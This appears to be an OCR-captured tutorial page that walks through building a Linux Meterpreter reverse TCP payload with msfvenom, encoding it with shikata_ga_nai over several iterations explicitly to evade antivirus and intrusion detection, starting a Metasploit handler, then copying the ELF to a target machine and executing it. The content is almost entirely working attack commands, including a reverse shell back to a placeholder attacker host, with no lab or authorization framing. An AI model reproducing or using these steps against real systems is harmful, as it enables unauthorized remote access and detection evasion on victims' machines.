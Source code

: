 ```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f elf > payload.elf

```
```-p linux/x86/meterpreter/reverse_tcp```: Specifies the payload type (Meterpreter reverse TCP shell for Linux).

```LHOST```: Your machine's IP address to receive the connection.

```LPORT```: The port to listen on.

```-f elf```: The format of the payload (ELF is the standard executable format for Linux).

```> payload.elf```: Saves the payload as an ELF file.

**2. Obfuscating Payloads**

To evade basic detection mechanisms, you can use encoders or modify the payload to make it less detectable.
Obfuscation makes the payload harder to detect by antivirus or intrusion detection systems.


You can use encoding to obfuscate the payload: **Linux Reverse Shell (ELF) with Obfuscation**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -e x86/shikata_ga_nai -i 5 -f elf > payload_encoded.elf

```

```-e x86/shikata_ga_nai```: Specifies the encoder (shikata_ga_nai is a polymorphic XOR additive feedback encoder).

```-i 5```: Number of encoding iterations.

**3. Testing the Payload**

Start a Metasploit handler to catch the reverse shell:
```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <port>
exploit
```
Transfer the payload to the target Linux machine:
```
scp payload.elf user@<target_ip>:/tmp
```
Make the payload executable on the target:
```
chmod +x /tmp/payload.elf
```
Execute the payload:
```
./payload.elf
```
